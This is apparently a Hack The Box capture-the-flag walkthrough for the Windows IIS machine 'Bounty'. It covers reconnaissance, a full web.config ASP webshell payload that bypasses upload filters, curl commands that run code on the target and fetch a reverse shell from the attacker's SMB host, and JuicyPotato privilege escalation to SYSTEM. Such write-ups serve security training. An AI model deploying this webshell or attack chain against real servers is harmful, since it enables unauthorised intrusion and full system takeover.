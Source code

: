 # Bounty

## Machine Info

![Bounty](./Bounty.assets/Bounty.png)

## Recon

### Port

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Path

- `/transfer.aspx`: upload file
- `/uploadedfiles`: file upload directory

```console
└─╼$ gobuster dir -u http://10.129.22.59/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 128 -x php,aspx -b 400,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.22.59/
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404,400
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/UploadedFiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/UploadedFiles/]
/uploadedFiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/uploadedFiles/]
/uploadedfiles        (Status: 301) [Size: 157] [--> http://10.129.22.59/uploadedfiles/]
===============================================================
Finished
===============================================================
```

## Foothold

### Upload web.config as aspx

Straghtly uploading aspx file is restricted -> upload web.config and executed as aspx file by iis server.

> The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique. In IIS7 (and higher), it is possible to do similar tricks by uploading or making a web.config file.
>
> - [Bypass Upload Restrictions and Evade Detection | Fgsec](https://fgsec.net/posts/Bypass-Upload-Restrictions-and-Evade-Detection/)
> - [Upload a web.config File for Fun & Profit | Soroush Dalili (@irsdl) Blog](https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

aspx payload:

```aspx
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
<% 

Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)

%>
```

**Exploit**:

![image-20240221202910788](./Bounty.assets/image-20240221202910788.png)

```console
└─╼$ curl 'http://10.129.22.59/uploadedfiles/web.config?cmd=whoami'
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
bounty\merlin
```

**MSF Session**: Generate a meterpreter served by local smb service, and execute it using web.config command

```console
└─╼$ curl 'http://10.129.22.59/uploadedfiles/web.config?cmd=\\10.10.16.24\qwe\reverse.exe'

---------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.59] 49158
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

## Privilege Escalation

### Enumeration

systeminfo

```console
Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### Juicy Potato

> https://juggernaut-sec.com/seimpersonateprivilege/
> https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
> https://ohpe.it/juicy-potato/CLSID/

1. Upload JuicyPotato and reverse shell file (generated by msf revshell)
2. Execute JuicyPotato to trigger reverse shell
3. Receive revshell using nc

```console
c:\qwe>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\qwe

02/20/2024  08:41 AM    <DIR>          .
02/20/2024  08:41 AM    <DIR>          ..
02/20/2024  07:54 AM             7,168 admin.exe
02/20/2024  08:41 AM           347,648 JuicyPotato.exe
               2 File(s)        354,816 bytes
               2 Dir(s)  11,767,451,648 bytes free

--------------------------------------------------------------------

c:\qwe>JuicyPotato.exe -t * -p admin.exe -l 1234
JuicyPotato.exe -t * -p admin.exe -l 1234
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1234
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK

--------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.22.59] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Exploit Chain

port scan & path recon -> iis server with file upload function (no aspx upload) & upload dir -> upload web.config as an aspx file -> upload aspx webshell -> user shell -> enum: SeImpersonatePrivilege -> JuicyPotato PrivEsca -> system priv shell
